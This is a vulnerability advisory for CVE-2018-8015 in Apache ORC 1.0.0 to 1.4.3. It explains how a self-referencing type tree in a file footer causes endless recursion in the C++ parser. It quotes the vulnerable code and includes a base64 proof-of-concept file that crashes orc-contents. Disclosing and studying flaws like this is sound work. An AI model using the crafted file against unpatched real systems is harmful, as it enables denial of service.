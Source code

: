 ```yaml
---
layout: post
title: "CVE-2018-8015: Denial of Service in Apache ORC"
---
```


A malformed ORC file can trigger an endlessly recursive function call in the
C++ parser which results in a segmentation fault.

The impact of this bug is most likely denial-of-service against software that
uses the C++ ORC file parser but may lead to possible code execution.

In addition, the Java parser is similarly affected but a stack overflow in
Java simply results in an exception being raised.

# Affected Versions

According to the Apache ORC team, Apache ORC versions 1.0.0 to 1.4.3 are
affected.

# Description

The vulnerable lines of code is in `c++/src/TypeImpl.cc` and is triggered when
parsing the schme contained in the `Footer` section of the ORC file.

An ORC database schema is defined as a type tree. The root of any ORC database
is a Struct which can contain other types, including another Struct. In the
`Footer` section, the type tree is encoded as  a linked-list like structure
where compound types like a Struct contain an id pointing to the next type in
the tree.

```c++
390    case proto::Type_Kind_STRUCT: {
391      TypeImpl* result = new TypeImpl(STRUCT);
392      uint64_t size = static_cast<uint64_t>(type.subtypes_size());
393      std::vector<Type*> typeList(size);
394      std::vector<std::string> fieldList(size);
395      for(int i=0; i < type.subtypes_size(); ++i) {
396        result->addStructField(type.fieldnames(i),
397                               convertType(footer.types(static_cast<int>
398                                                        (type.subtypes(i))),
399                                           footer));
400      }
401      return std::unique_ptr<Type>(result);
402    }
```

The above code parses the type tree encoded in the `Footer` section. When it
encounters a Struct (or Union) type, it recursively parses all subtypes.
However, it does not account for the case where a subtype's `next` id points
to the parent type. This results in an endless recursion that eventually blows
the stack.

# Proof of Concept

The file `poc.orc` is included here as a base64 encoded file.

```
CAMQ9AMaACILCAwSAQEaBEFBQUEiCwgMEgEAGgRBQUFBKgA6AAglEAAiAgAMMAaC
9AMDT1JDEQgDEPQDGgAiCwgMEgEBGgRBQUFBIgsIDBIBABoEQUFBQSoAOgAIJRAA
IgIADDAGgvQDA09SQxE=
```

Attempting to parse the file with `orc-contents` results in a segmentation
fault.

```
$ ./orc-contents poc.orc
Segmentation fault
```

# Credits

This issue was discovered by Terry Chia (Ayrx).

# Timeline

* 27 Feb 2018 - Vulnerability report to private@orc.apache.org.
* 18 May 2018 - Apache ORC 1.4.4 and 1.5.0 released that fixes the
vulnerability. CVE-2018-8015 assigned.
